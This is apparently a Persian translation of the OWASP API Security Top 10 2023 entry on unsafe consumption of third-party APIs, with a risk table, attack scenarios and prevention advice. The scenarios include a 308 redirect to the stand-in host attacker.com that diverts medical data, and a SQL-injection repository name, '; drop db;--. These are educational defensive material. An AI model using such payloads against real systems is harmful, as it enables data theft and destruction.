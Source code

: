

# API10:2023 استفاده ناایمن از APIها
---

| ضعف امنیتی | عوامل تهدید / مسیر حمله | پیامد |
|---------|--------------------|------------|
| خاص API / قابلیت بهره‌برداری: آسان |  میزان شیوع: متداول/ قابلیت تشخیص: متوسط              | پیامد فنی: شدید / خاص کسب و کار
| برای بهره‌برداری از این آسیب‌پذیری مهاجم باید APIها یا خدمات دیگری که با آنها ادغام شده را شناسایی کرده و به آنها نفوذ کند. این اطلاعات به صورت عمومی در دسترس نبوده یا API سرویس‌های آن به آسانی قابل بهره‌برداری نیستند.              | توسعه‌دهندگان معمولا به endpointهای APIهای خارجی یا طرف ثالثی که در ارتباط هستند، اعتماد می‌کنند. آنها این تصور را دارند که الزامات امنیتی ضعیف‌تری مانند امنیت در انتقال اطلاعات، احراز هویت و دسترسی و اعتبارسنجی و تصفیه اطلاعات ورودی، امنیت کافی برای این نقاط را تامین می‌کند. مهاجمان باید خدماتی را که API هدف با آنها ادغام می‌شود (منابع داده) شناسایی کرده و سعی کنند که آنها را مختل کرده یا به صورت غیرمجاز به آنها دسترسی پیدا کنند.     | پیامد این وضعیت به نحوه استفاده از داده‌های بهره‌برداری شده بستگی دارد. بهره‌برداری موفق از این آسیب‌پذیری ممکن است منجر به افشای اطلاعات حساس به اشخاص غیرمجاز شود. انواع مختلف حملاتی که در نتیجه بهره‌برداری از این آسیب‌پذیری ممکن است رخ دهد مانند حملات تزریق‌ها یا DoD خواهد بود.         |



### آیا API از نظر استفاده ناایمن از APIها ‌آسیب‌پذیر است؟
---
توسعه‌دهندگان معمولاً به داده‌های دریافتی از API‌های طرف ثالث بیشتر از ورودی‌های کاربران اعتماد می‌کنند. این موضوع برای API‌های ارائه شده توسط شرکت‌های معروف بیشتر صدق می‌کند. به همین دلیل، توسعه‌دهندگان عمدتاً استانداردهای امنیتی ضعیف‌تری را در بسیاری از موارد از جمله اعتبارسنجی و تصفیه ورودی اتخاذ می‌کنند.

API‌ها ممکن است در معرض آسیب‌پذیری باشند اگر:

- با سایر API ها از طریق یک کانال بدون رمزگذاری ارتباط برقرار کنند.
- داده‌های جمع‌آوری شده از دیگر API ها را قبل از پردازش یا ارسال به اجزای پایین‌دست به درستی اعتبارسنجی و تصفیه نکنند. 
- محدودیتی در پاسخ‌دهی به درخواست‌های پی‌در‌پی نداشته باشند.
- تعداد منابع مورد نیاز برای پردازش پاسخ‌های سرویس‌های طرف ثالث را محدود نکنند. 
- بازه زمانی محدود برای ارتباط با سرویس‌های طرف ثالث مشخص نکنند.

### مثال‌‌هایی از سناریوهای حمله
---
#### سناریو #1

در این سناریو، یک API از آدرس‌های کسب و کار یک سرویس طرف ثالث استفاده می‌کند. وقتی یک کاربر آدرسی را به API  ارائه می‌دهد، آن آدرس به سرویس طرف ثالث ارسال شده و اطلاعات بازگشتی در یک پایگاه داده محلی SQL  ذخیره می‌شود. اشخاص با نیت مخرب، از سرویس طرف ثالث برای ذخیره کردن کدهای تزریقSQL  (SQLi) استفاده می‌کنند. سپس با بکارگیری API آسیب‌پذیر و درج ورودی‌های خاص، می‌تواند اطلاعات مرتبط با کسب و کار آلوده شده را از سرویس طرف ثالث دریافت کند. در نهایت، کدهای تزریق شده SQL از طریق پایگاه داده اجرا شده و توسط مهاجم به سرور کنترلی ارسال می‌شوند. این کار سبب می‌شود تا مهاجم به طور غیرمجاز اطلاعات را از دیتابیس بازیابی کرده و بر روی سرور خود کنترل کند. 

#### سناریو #2

یک API با یک ارائه‌دهنده خدمات طرف ثالث ادغام می‌شود تا اطلاعات حساس پزشکی کاربران را به شکلی ایمن ذخیره کند. داده‌ها با استفاده از یک درخواست HTTP از طریق برقراری یک اتصال امن، ارسال می‌شوند:


```http
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```


مهاجمین با نیت مخرب، باعث می‌شوند که این سرویس به جای پاسخ معمولی به درخواست‌ها، پاسخ‌هایی با کد 308 Permanent Redirect ارسال کند. کد 308 به معنای انتقال دائمی است که سبب می‌شود سرویس درخواست‌های کاربران را به مکان دیگری منتقل کند.


```http
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

در نتیجه، اطلاعات حساس کاربران به جای ارسال به سرویس طرف ثالث، به سروری تحت کنترل مهاجم، ارسال می‌شود.


#### سناریو #3

مهاجمی یک مخزن Git با نام `'; drop db;--` ایجاد می‌کند. وقتی اتصالی از برنامه تحت حمله با مخزن مخرب برقرار شود، برنامه نام مخزن را به عنوان یک ورودی امن در نظر می‌گیرد.

### چگونه از ‌آسیب‌پذیری استفاده ناایمن از APIها پیشگیری کنیم؟
---
- **ارزیابی ارائه‌دهندگان خدمات**: هنگام انتخاب ارائه‌دهندگان خدمات طرف ثالث، امنیت API آنها را به دقت ارزیابی کرده و آن‌هایی را انتخاب کنید که دارای سابقه قوی در زمینه امنیت و حفاظت از داده‌ها هستند.
- **ارتباط امن**: اطمینان حاصل کنید که تمام تعاملات با API‌ها از طریق یک کانال ارتباطی امن (TLS) صورت می‌گیرد. این کار باعث می‌شود که داده‌ها در زمان انتقال رمز شده و از دسترسی مهاجمان به آن‌ها جلوگیری شود. 
- **اعتبارسنجی و تصفیه داده**: همیشه داده‌های دریافتی از API‌ها را اعتبارسنجی و تصفیه کنید. این عمل از حملات مرتبط با تزریق اطلاعات جلوگیری می‌کند.
- **نگهداری لیست مجاز (Allowlist)**: یک لیست مجاز از مکان‌های شناخته‌شده‌ای که API‌ها ممکن است به آنها هدایت شوند را نگهداری کرده و از دنبال کردن مسیرهای دارای مقصد ناشناخته خودداری کنید.

## مراجع
---


- [OWASP](https://owasp.org/)
- [Web Service Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html)
- [Injection Flaws](https://owasp.org/www-community/Injection_Flaws)
- [Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- [Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Transport Layer Protection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html)
- [Unvalidated Redirects and Forwards Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)


#### خارجی


- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-319: Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)





